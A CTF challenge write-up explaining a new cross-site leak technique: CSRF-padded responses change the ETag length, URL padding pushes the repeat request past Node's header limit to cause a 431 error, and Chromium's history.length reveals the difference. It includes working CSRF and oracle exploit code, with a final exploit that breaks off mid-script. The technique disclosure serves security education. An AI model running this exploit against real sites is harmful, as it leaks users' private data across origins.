import {Tweet} from "@site/src/components/tweet";

I recently discovered a new client-side attack technique that leaks the **length of an ETag** from a cross-site page. This can be used as an XS-Leak oracle and I created a CTF challenge as a proof of concept.

`impossible-leak` is one of the challenges I authored for SECCON CTF 14 Quals[^overview-01]:

[^overview-01]: The full list of my SECCON CTF 14 Quals challenges is available [here](https://github.com/arkark/my-ctf-challenges?tab=readme-ov-file#seccon-ctf-14-quals).

- Difficulty: 1 solve[^overview-02] / 500 pts
- Author: [me](https://x.com/arkark_)
- Source: https://github.com/arkark/my-ctf-challenges/tree/main/challenges/202512_SECCON_CTF_14_Quals/web/impossible-leak

[^overview-02]: [Here](https://gist.github.com/parrot409/e3b546d3b76e9f9044d22456e4cc8622) is parrot's solution for this challenge. It is unintended, but incredibly clever!



This technique is likely applicable beyond this specific challenge. We can use it as an unintended solution in other XS-Leak challenges. In fact, I first came up with it as an unintended approach during an earlier CTF and later refined it into a standalone technique.

<!-- truncate -->

## Challenge Overview

The target is a very simple note-taking application.

Server-side code:

```javascript title="web/index.js"
import express from "express";
import session from "express-session";
import crypto from "node:crypto";

const db = new Map();
const getNotes = (id) => {
  if (!db.has(id)) db.set(id, []);
  return db.get(id);
};

const app = express()
  .set("view engine", "ejs")
  .use(express.urlencoded())
  .use(
    session({
      secret: crypto.randomBytes(16).toString("base64"),
      resave: false,
      saveUninitialized: true,
    })
  );

app.get("/", (req, res) => {
  const { query = "" } = req.query;
  const notes = getNotes(req.session.id).filter((note) => note.includes(query));
  res.render("index", { notes });
});

app.post("/new", (req, res) => {
  const note = String(req.body.note).slice(0, 1024);
  getNotes(req.session.id).push(note);
  res.redirect("/");
});

app.listen(3000);
```

Template file:

```html title="web/views/index.ejs"
<!DOCTYPE html>
<html>
  <body>
    <h1>Notes</h1>
    <form id="create" action="/new" method="post">
      <div>
        <input type="text" name="note" required />
        <input type="submit" value="Create" />
      </div>
    </form>
    <ul>
      <% notes.forEach(note => {%>
        <li><%= note %></li>
      <% }); %>
    </ul>
    <form action="/" method="get">
      <div>
        <input type="text" name="query" />
        <input type="submit" value="Search" />
      </div>
    </form>
  </body>
</html>
```

Endpoints:

- `GET /`: Shows your notes.
    - No HTML injection.
    - Supports searching via the `query` parameter.
- `POST /new`: Creates a note.
    - Vulnerable to CSRF.

Notes page:


Search results for `SECCON{r`:


The goal is to leak the bot's note (the flag):
```javascript title="bot/conf.js"
// Create a flag note
const page1 = await context.newPage();
await page1.goto(challenge.appUrl, { timeout: 3_000 });
await page1.waitForSelector("#create");
await page1.type("#create input[name=note]", flag.value);
await page1.click("#create input[type=submit]");
await sleep(1_000);
await page1.close();
await sleep(1_000);

// Visit the given URL
const page2 = await context.newPage();
await page2.goto(url, { timeout: 3_000 });
await sleep(60_000);
await page2.close();
```

The timeout is relatively long (60s), so this looks like an XS-Leak challenge. However:

- There is **no** HTML injection.
- There is **no** sorting feature.
- There is **no** CSS.
- There is **no** extra resource loading.

These conditions make typical XS-Leak approaches difficult to apply.

## Solution

### Step 1: ETag Header Length

The first step in solving such challenges is to carefully compare **observable differences** between:

- when the search **hits** the flag note, and
- when it **misses**.

When the search hits:
```
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 484
ETag: W/"1e4-Mfh5EeZSATTUBTZ0fvEzgdvLYu4"
Date: ...
Connection: keep-alive
Keep-Alive: timeout=5

... snip ...
```

When it misses:
```
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 443
ETag: W/"1bb-Ouz/TB1WQCg6QhEFVloBFY6TJKk"
Date: ...
Connection: keep-alive
Keep-Alive: timeout=5

... snip ...
```

The response body is larger when it hits (because it renders the matching note), so `Content-Length` changes. The key observation is that the `ETag` value changes too and more importantly, its length can change.

In this app, the ETag is generated by `jshttp/etag`. The format includes the content size in **hex** as a prefix:
```
W/"{{ stat.size.toString(16) }}-{{ stat.mtime.getTime().toString(16) }}"
```
Reference: https://github.com/jshttp/etag/blob/v1.8.1/index.js#L126-L131

Because the size is encoded in hex, the number of hex digits changes at boundaries (e.g., `0xfff` -> `0x1000`). That means the ETag length can differ by 1 depending on whether the response size crosses such a boundary.

In this challenge, we can control the response size by abusing CSRF to create many notes in the victim's session. This allows us to manipulate the total response size so that:

- search hit ->  response size becomes `0x1000 + ...` (4 hex digits)
- search miss -> response size stays at `0xfff` (3 hex digits)

It produces a 1-byte difference in the ETag length.

Below is an example CSRF page that prepares two prefixes: one that matches the flag note (`SECCON{r...`) and one that does not.

```html
<body>
  <form id="create" action="..." method="post" target="csrf">
    <input type="text" name="note" />
  </form>
  <script type="module">
    const BASE_URL = "http://web:3000";

    const sleep = (ms) => new Promise((resolve) => setTimeout(resolve, ms));

    const csrfWin = open("about:blank", "csrf");
    const createNote = async (note) => {
      const form = document.forms[0];
      form.action = `${BASE_URL}/new`;
      form.note.value = note;
      form.submit();
      await sleep(100);
    };

    const prepared = new Set();
    const prepare = async (prefix) => {
      if (prepared.has(prefix)) return;
      prepared.add(prefix);

      const initialLen = 443;
      const part = "\n        <li>" + "</li>\n      ";

      let len = initialLen;
      while (16 ** 3 - len - part.length - 1 > 0) {
        const note = prefix.padEnd(
          Math.min(1024, 16 ** 3 - len - part.length - 1),
          "*"
        );
        len += note.length + part.length;
        await createNote(note);
      }
    };

    await prepare("SECCON{r"); // Matches `SECCON{redacted}`
    await prepare("SECCON{x"); // Does not match `SECCON{redacted}`
  </script>
</body>
```

After visiting the page, the responses appear as follows.

Hit (`?query=SECCON{r`):
```text {5}
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 4136
ETag: W/"1028-7DssyPmtuJFW+hsMczlljuIGJC8"
Date: ...
Connection: keep-alive
Keep-Alive: timeout=5

... snip ...
```



Miss (`?query=SECCON{x`):
```text {5}
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 4095
ETag: W/"fff-j/5Cw0uvoM8vDCtG7hABgyD9RvM"
Date: ...
Connection: keep-alive
Keep-Alive: timeout=5

... snip ...
```



- Hit: `ETag: W/"1028-7DssyPmtuJFW+hsMczlljuIGJC8"`
    - Response size: `0x1028`
    - ETag length: `36`
- Miss: `ETag: W/"fff-j/5Cw0uvoM8vDCtG7hABgyD9RvM"`
    - Response size: `0xfff`
    - ETag length: `35`


:::info
The ETag format is implementation-defined. In particular, many implementations (including `jshttp/etag`) can generate ETags whose length is not constant.

Examples of software that can generate variable-length ETags:

- Apache httpd (configurable): https://httpd.apache.org/docs/current/en/mod/core.html#fileetag
- Nginx: https://github.com/nginx/nginx/blob/release-1.29.4/src/http/ngx_http_core_module.c#L1715-L1717
- Tomcat: https://github.com/apache/tomcat/blob/11.0.15/java/org/apache/catalina/webresources/AbstractResource.java#L74
- H2O: https://github.com/h2o/h2o/blob/v2.2.6/lib/common/filecache.c#L167
:::

### Step 2: 431 Status Error

What can we do with this 1-byte difference in ETag length?

If a response includes an `ETag` header, a subsequent request to the same URL will include the `If-None-Match` header:

- Hit: `If-None-Match: W/"1028-7DssyPmtuJFW+hsMczlljuIGJC8"`
- Miss: `If-None-Match: W/"fff-j/5Cw0uvoM8vDCtG7hABgyD9RvM"`

So the request headers on the second navigation become slightly longer in the hit case.

Many web servers enforce a maximum allowed size for request headers (including the request-line) as a DoS mitigation. If the request exceeds this limit, the server returns **431 Request Header Fields Too Large**.

In this challenge, Express runs on `node:http`, which has a request header size limit `http.maxHeaderSize` (default: `16 KiB`):

```c title="https://github.com/nodejs/node/blob/v25.2.1/src/node_options.h#L159"
uint64_t max_http_header_size = 16 * 1024;
```



By padding the URL so that the total header size is right at the threshold, the extra 1 byte in `If-None-Match` can be the difference between:

- If the header size is still under the limit: `200 OK`
- If the header size is just over the limit: `431 Request Header Fields Too Large`

If the URL is `"http://web:3000?query=SECCON{r&" + "X".repeat(15834)` (hit case):

- 1st access: `200 OK`
- 2nd access: `431 Request Header Fields Too Large`



If the URL is `"http://web:3000?query=SECCON{x&" + "X".repeat(15834)` (miss case):

- 1st access: `200 OK`
- 2nd access: `200 OK`



### Step 3: History API Behavior

Now we need to detect whether or not a 431 error occurs on cross-site pages.

Normally, cross-origin status codes are opaque. However, in this case, we can exploit a Chromium-specific behavior regarding session history updates.

When a navigation happens, the browser typically "pushes" a new history entry, increasing `history.length` by 1. However, Chromium sometimes "replaces" the current entry instead of pushing a new one.

Chromium uses `should_replace_current_entry` to decide between "push" and "replace":
```cpp {4,6} title="https://chromium.googlesource.com/chromium/src/%2B/refs/heads/main/content/browser/renderer_host/navigation_request.cc#7020"
      blink::mojom::NavigationApiEntryRestoreReason reason =
          common_params_->should_replace_current_entry
              ? blink::mojom::NavigationApiEntryRestoreReason::
                    kPrerenderActivationReplace
              : blink::mojom::NavigationApiEntryRestoreReason::
                    kPrerenderActivationPush;
```

One condition that can cause "replace" is when a navigation to the same URL fails (with an invalid `page_state`):

- https://chromium.googlesource.com/chromium/src/%2B/refs/heads/main/content/browser/renderer_host/navigation_request.cc#6340
- https://source.chromium.org/chromium/chromium/src/+/df9f2fd80f9b8697c877c2c7e7f19d9f389291b8:content/browser/renderer_host/navigation_request.cc;l=10679

Therefore, if we navigate to the same URL twice in a row and the second navigation fails due to a 431 error, those **two** navigations contribute only **one** new history entry (because the second navigation replaces the first).

This means we can detect 431 by measuring `history.length` on a window we control.

A minimal demo looks like this:
```javascript
    let win = open("about:blank");

    const getUrl = (prefix, padLength, nonce) =>
      `${BASE_URL}/?${new URLSearchParams({
        query: prefix,
        pad: nonce.padEnd(padLength, "x"),
      })}`;

    const got431 = async (prefix, padLength) => {
      await prepare(prefix);

      const nonce = (Math.random() + "").padEnd(20, "0");
      const url = getUrl(prefix, padLength, nonce);

      const len1 = win.history.length;

      win.location = url;
      await sleep(100);
      win.location = url;
      await sleep(100);
      win.location = "about:blank";
      await sleep(100);
      const len2 = win.history.length;

      const diff = len2 - len1;
      // If a 431 error occurs: diff === 2
      // Otherwise: diff === 3

      console.log({ prefix, len1, len2, diff });
      return diff === 2;
    };

    const threshold = 15822; // TODO: Not implemented

    console.log(await got431("SECCON{r", threshold)); // -> true
    console.log(await got431("SECCON{x", threshold)); // -> false
```



The following diagrams illustrate the concept.

When searching for `SECCON{r` (flag note **hit**):


When searching for `SECCON{x` (flag note **miss**):


### Putting It All Together

The final exploit combines:

1. Using CSRF to create many notes, and tuning the response size near a hex boundary in ETag
2. URL padding to push the second request near Node's header-size threshold
3. Measuring `history.length` to detect whether the second navigation turns into a 431 error

The final exploit looks like this:
```html
<body>
  <form id="create" action="..." method="post" target="csrf">
    <input type="text" name="note" />
  </form>
  <script type="module">
    const BASE_URL = "http://web:3000";
    const CHARS = [..."_abcdefghijklmnopqrstuvwxyz"];

    const sleep = (ms) => new Promise((resolve) => setTimeout(resolve, ms));
    const debug = (o) => navigator.sendBeacon("/debug", JSON.stringify(o));
    // const debug = (o) => console.log(o);

    let known = new URLSearchParams(location.search).get("known") ?? "SECCON{";

    const csrfWin = open("about:blank", "csrf");
    const createNote = async (note) => {
      const form = document.forms[0];
      form.action = `${BASE_URL}/new`;
      form.note.value = note;
      form.submit();
